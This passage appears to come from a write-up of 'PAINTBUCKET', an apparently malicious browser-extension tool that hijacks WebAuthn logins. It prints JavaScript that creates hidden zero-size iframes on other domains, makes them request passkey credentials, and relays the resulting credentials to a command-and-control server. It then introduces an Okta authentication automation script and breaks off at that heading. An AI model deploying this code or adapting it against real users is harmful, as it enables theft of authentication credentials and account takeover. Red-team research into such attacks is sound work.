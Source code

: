 **Step 2: Hidden Iframe Creation**
When legitimate authentication is detected, PAINTBUCKET creates hidden iframes to target additional domains:
```javascript
function createWebAuthnIframe(site, request) {
    const iframe = document.createElement('iframe');
    // Create iframe with WebAuthn request encoded in URL
    iframe.src = "https://" + site + "/something/that/does/not/exist/?makewebauthnrequest=" + encodeURIComponent(request);
    iframe.allow = 'publickey-credentials-get';
    
    // Hide the iframe completely
    iframe.style.width = '0px';
    iframe.style.height = '0px';
    iframe.style.position = 'absolute';
    iframe.style.left = '-9999px';
    
    document.body.appendChild(iframe);
}
```

**Step 3: Cross-Domain Authentication Execution**
The hidden iframe loads with a specially crafted URL containing base64-encoded WebAuthn request data:
```javascript
// URL parameter processing in iframe context
const makeWebAuthnRequest = urlParams.get('makewebauthnrequest');
if (makeWebAuthnRequest) {
    // Decode and parse the WebAuthn request
    const requestOptions = JSON.parse(atob(makeWebAuthnRequest));
    
    // Stop normal page loading and execute WebAuthn request
    window.stop();
    document.documentElement.innerHTML = '<html><body><h1>🔑 Processing WebAuthn Request...</h1></body></html>';
    
    // Execute the WebAuthn request in this domain context
    navigator.credentials.get(requestOptions).then(credential => {
        // Send response back to C2 via extension messaging
        sendWebAuthnResponse(credential);
    });
}
```

### The Demo Okta Authentication Script

The `okta-idx-flow-automated.py` script demonstrates PAINTBUCKET's capabilities by automating a complete WebAuthn authentication flow against Okta's Identity Exchange (IDX) API. This script showcases how PAINTBUCKET can orchestrate complex authentication sequences that combine traditional credential submission with WebAuthn challenge-response cycles.

#### Script Architecture
